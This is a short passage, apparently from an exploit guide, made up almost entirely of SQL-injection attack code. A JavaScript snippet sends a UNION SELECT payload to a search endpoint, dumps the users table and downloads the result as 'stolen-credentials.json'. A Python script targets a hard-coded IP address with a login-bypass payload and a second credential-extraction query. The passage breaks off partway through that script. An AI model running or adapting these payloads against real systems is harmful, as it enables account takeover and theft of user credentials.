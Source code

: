 
### Extract All Data via Browser

```javascript
// Extract all user credentials
fetch('/api/search', {
  method: 'POST',
  headers: { 'Content-Type': 'application/json' },
  body: JSON.stringify({
    query: "test' UNION SELECT * FROM users-- "
  })
})
.then(r => r.json())
.then(data => {
  console.log('💎 All User Credentials:');
  console.table(data.results);
  
  // Download as JSON
  const blob = new Blob([JSON.stringify(data.results, null, 2)], 
    { type: 'application/json' });
  const url = URL.createObjectURL(blob);
  const a = document.createElement('a');
  a.href = url;
  a.download = 'stolen-credentials.json';
  a.click();
});
```

---

## 🐍 Python Automation

### Automated Credential Extraction

```python
import requests
import json

BASE_URL = "http://174.138.71.77"

# Method 1: Authentication Bypass
def bypass_login():
    payload = {
        "username": "admin'-- ",
        "password": "anything"
    }
    
    response = requests.post(f"{BASE_URL}/api/legacy-login", json=payload)
    data = response.json()
    
    if data.get('success'):
        print(f"✅ Login successful!")
        print(f"Token: {data['token']}")
        print(f"User: {data['user']}")
        return data['token']
    else:
        print(f"❌ Login failed: {data}")
        return None

# Method 2: Extract All Credentials
def extract_credentials():
    payload = {
        "query": "test' UNION SELECT * FROM users-- "
    }
```